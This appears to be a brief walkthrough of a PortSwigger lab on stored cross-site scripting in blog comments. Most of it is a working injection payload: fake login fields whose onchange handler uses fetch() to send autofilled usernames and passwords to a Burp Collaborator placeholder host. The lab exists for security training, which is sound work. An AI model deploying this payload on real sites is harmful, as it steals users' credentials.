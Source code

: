 This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

The autofill functionality will fire when the attacker injects username and password fields:

```javascript
<input name=username id=username> 
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">
```

By defining such payload, when the password is auto filled it will be sent to the collaborator:


![[stolen.png]]